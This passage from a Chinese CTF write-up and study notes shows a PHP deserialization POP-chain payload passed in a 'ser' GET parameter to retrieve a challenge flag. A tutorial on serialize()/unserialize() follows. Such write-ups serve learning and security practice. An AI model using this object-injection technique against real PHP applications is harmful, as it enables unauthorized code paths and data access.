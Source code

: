 ```php
$w = new web();
$w->kw = $r;
echo serialize($w);
 
 
?>
```

得到payload

```php
?ser=O:3:"web":2:{s:2:"kw";O:2:"re":1:{s:4:"chu0";O:3:"pwn":2:{s:4:"dusk";N;s:4:"over";O:4:"Misc":2:{s:7:"nothing";N;s:4:"flag";N;}}}s:2:"dt";N;}ALL Done!
```

GET上传得到flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731736638945-a96b7bee-b2cc-439f-abfe-7bd052869456.png)

#### <font style="color:rgb(79, 79, 79);">反序列化</font>
参考文章[链接](https://blog.csdn.net/m0_73185293/article/details/131353031?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522B7E564A8-AB7D-4480-9B2C-91AE97CD4A96%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=B7E564A8-AB7D-4480-9B2C-91AE97CD4A96&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-131353031-null-null.142^v100^pc_search_result_base7&utm_term=php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86&spm=1018.2226.3001.4187)

##### <font style="color:rgb(79, 79, 79);">概述</font>
反序列化是将序列化得到的字符串转化为一个对象的过程；



 反序列化生成的对象的成员属性值由被反序列化的字符串决定，与原来类预定义的值无关；

  

反序列化使用unserialize()函数将字符串转换为对象，序列化使用serialize()函数将对象转化为字符串；

```php
//反序列化
 
<?php
class test
{
    public $a="haha";
    public $b=123;
}
 
$ha='O:4:"test":2:{s:1:"a";s:3:"666";s:1:"b";i:6666;}';
$ha=unserialize($ha)
var_dump($ha);
 
?>
 
//输出：
object(test)#1 (2) {
  ["a"]=>
  string(3) "666"
  ["b"]=>
  int(6666)
}
 
 
//如上将字符串转换为对象，且对象的值与类预定义的值无关，取决于被反序列化的字符串
```

